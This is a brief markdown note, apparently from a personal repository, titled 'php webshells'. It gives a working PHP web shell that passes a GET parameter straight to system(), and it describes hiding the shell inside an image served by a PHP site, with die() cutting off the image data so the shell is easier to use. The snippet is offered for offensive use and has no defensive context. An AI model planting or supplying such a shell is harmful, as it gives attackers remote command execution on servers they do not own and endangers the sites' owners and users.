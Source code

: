 # php webshells


> php site using php to show images, we can hide an shell in an image
```php
if(isset($_GET['invae']  ))
{
	system($_GET['invae']);
}
die(); 
```
`die()` removes the image garbage, making our shell easier to use



